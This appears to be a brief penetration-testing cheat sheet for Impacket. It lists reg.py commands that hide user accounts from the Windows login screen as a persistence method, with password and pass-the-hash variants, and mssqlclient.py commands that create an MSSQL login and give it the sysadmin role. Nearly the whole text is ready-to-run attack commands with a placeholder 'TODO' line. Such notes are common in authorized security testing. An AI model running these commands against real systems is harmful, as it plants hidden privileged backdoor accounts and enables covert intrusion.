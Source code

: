 # Impacket

## 01 - MSRPC Port

Makes the user account invisible from the Windows Login screen

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0
```

Persistence method to add user account

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0
```

## 02 - MSSQL Port

TODO: Fill this info

```
$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>:<password>@<IP>

$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>@<IP> -hashes :<nt_hash>

CREATE LOGIN <username> WITH PASSWORD = '<password>';
sp_addsrvrolemember '<username>', 'sysadmin';
go
```

---
## References

### Hacktricks

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server.html)